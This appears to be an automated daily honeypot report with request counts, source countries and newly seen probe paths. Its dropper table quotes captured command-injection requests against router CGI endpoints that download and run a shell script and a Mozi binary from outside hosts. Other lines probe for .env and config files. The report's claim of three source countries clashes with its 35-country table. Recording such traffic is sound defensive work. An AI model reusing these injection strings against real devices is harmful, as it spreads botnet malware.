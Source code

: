 ```yaml
---
title: "Report: 2025-05-07 "
date: 2025-05-07
desciption: "Report: 2025-05-07" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-07 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 22 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1046 requests were recorded during the day, originating from 3 different countries, with a peak of 211 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                  |
|:--------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.95.147.209 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F212.81.47.226%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1 |
| 141.98.11.128 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F212.81.47.226%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1 |
| 59.97.213.76  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://59.97.213.76:54224/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                             |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                |
|----:|----------------------:|:---------------------------------------|
| 126 |                     1 | GET /OdinHttpCall1746612224 HTTP/1.1   |
| 127 |                     1 | GET /odinhttpcall1746612224 HTTP/1.1   |
| 131 |                     1 | GET /hRXK HTTP/1.1                     |
| 132 |                     1 | GET /9aqQ HTTP/1.1                     |
| 195 |                     1 | GET /route/.env HTTP/1.1               |
| 225 |                     1 | GET /config/env.js HTTP/1.1            |
| 226 |                     1 | GET /config/runtime-env.js HTTP/1.1    |
| 236 |                     1 | GET /.env.suspected HTTP/1.1           |
| 242 |                     1 | GET /message-api/actuator/env HTTP/1.1 |
| 247 |                     1 | POST /login.cgi/cgi_main.cgi HTTP/1.1  |
| 253 |                     1 | GET /configuration.yml HTTP/1.1        |
| 254 |                     1 | GET /TYJe HTTP/1.1                     |
| 255 |                     1 | GET /cCNi HTTP/1.1                     |
| 288 |                     1 | GET /odinhttpcall1746618587 HTTP/1.1   |
| 289 |                     1 | GET /OdinHttpCall1746618587 HTTP/1.1   |
| 290 |                     1 | GET /Odin/http/call1746618587 HTTP/1.1 |
| 327 |                     1 | GET /dYKT HTTP/1.1                     |
| 328 |                     1 | GET /Ax7m HTTP/1.1                     |
| 379 |                     1 | GET /OdinHttpCall1746598718 HTTP/1.1   |
| 381 |                     1 | GET /Odin/http/call1746612224 HTTP/1.1 |
| 403 |                     1 | GET /odinhttpcall1746598718 HTTP/1.1   |
| 404 |                     1 | GET /Odin/http/call1746598718 HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   211 | US                 |
|  1 |                   182 | NL                 |
|  2 |                   157 | SC                 |
|  3 |                   124 | GB                 |
|  4 |                   117 | DE                 |
|  5 |                    45 | PL                 |
|  6 |                    27 | CN                 |
|  7 |                    22 | RU                 |
|  8 |                    18 | IL                 |
|  9 |                    15 | FR                 |
| 10 |                    12 | IN                 |
| 11 |                    12 | CA                 |
| 12 |                    12 | AZ                 |
| 13 |                    12 | LT                 |
| 14 |                    10 | GH                 |
| 15 |                     8 | SG                 |
| 16 |                     7 | UA                 |
| 17 |                     6 | MD                 |
| 18 |                     6 | KR                 |
| 19 |                     5 | PT                 |
| 20 |                     4 | HK                 |
| 21 |                     4 | AO                 |
| 22 |                     4 | BE                 |
| 23 |                     4 | AU                 |
| 24 |                     3 | JP                 |
| 25 |                     3 | ZA                 |
| 26 |                     2 | SE                 |
| 27 |                     2 | IT                 |
| 28 |                     2 | ID                 |
| 29 |                     2 | BR                 |
| 30 |                     2 | CH                 |
| 31 |                     2 | RO                 |
| 32 |                     2 | NZ                 |
| 33 |                     1 | TR                 |
| 34 |                     1 | TW                 |
